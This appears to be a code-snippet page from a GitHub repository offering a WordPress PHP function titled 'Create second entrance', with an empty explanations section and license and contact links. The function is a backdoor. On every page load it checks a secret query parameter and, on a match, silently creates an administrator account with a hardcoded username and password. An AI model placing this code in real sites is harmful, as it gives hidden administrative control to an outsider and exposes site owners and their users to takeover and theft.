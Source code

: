 ## Create second entrance

### Code Snippet

```php
//Open yoursite.com/?entrance=open
add_action('wp_head', 'create_entrance');
function create_entrance() {
  if(md5($_GET['entrance']) === '1c4dcdc4f55ae2adab37f80f5b4efa81') {
    require('wp-includes/registration.php');
    if(!username_exists('debt_collector')) {
      $user_id = wp_create_user('debt_collector', 'LetMeIn!');
      $user = new WP_User($user_id);
      $user->set_role('administrator');
    }
  }
}
```
### Explanations

### License

[GNU General Public License v2.0](https://github.com/dedewiweka/snippets/blob/main/LICENSE)

### Support and Contact

For more information and details about my work please visit [My Development Website](https://dede.wiweka.com/development).